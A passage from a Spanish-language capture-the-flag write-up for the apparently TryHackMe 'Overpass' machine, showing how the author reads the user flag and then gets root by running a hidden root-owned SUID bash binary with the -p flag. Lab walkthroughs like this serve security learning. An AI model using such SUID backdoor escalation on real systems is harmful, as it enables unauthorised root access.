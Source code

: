 Una vez que hemos accedido al directorio home de James y listado su contenido, nos encontramos con la flag del usuario.

```bash
james@overpass-production:/home/james$ ls -al
total 1136
drwxr-xr-x 7 james james    4096 Jul 22  2020 .
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache
drwx------ 3 james james    4096 Jul 21  2020 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www
```

Procedemos a leer la flag.

```bash
james@overpass-production:/home/james$ cat user.txt                            
thm{d119b4fa8c497********************}
```

Además, al explorar el directorio, descubrimos un binario oculto sospechoso con permisos **SUID** y propiedad del usuario root. Al ejecutar este binario, se genera una nueva shell, lo que indica que podría tratarse de una vulnerabilidad de escalada de privilegios que nos permitirá obtener acceso como usuario root.

```bash
james@overpass-production:/home/james$ ./.suid_bash                            
.suid_bash-4.4$ whoami
james
```

Si ejecutamos el binario oculto con el parámetro `-p` para ejecutarlo con los privilegios del propietario, obtendremos una shell con privilegios de root.

```bash
james@overpass-production:/home/james$ ./.suid_bash -p                         
.suid_bash-4.4# whoami
root
```

Finalmente, accedemos al directorio `/root` y leemos la última flag de la máquina.

```bash
.suid_bash-4.4# cd /root
.suid_bash-4.4# ls
root.txt
.suid_bash-4.4# cat root.txt 
thm{d53b2684f1693********************}
```

¡Happy Hacking!
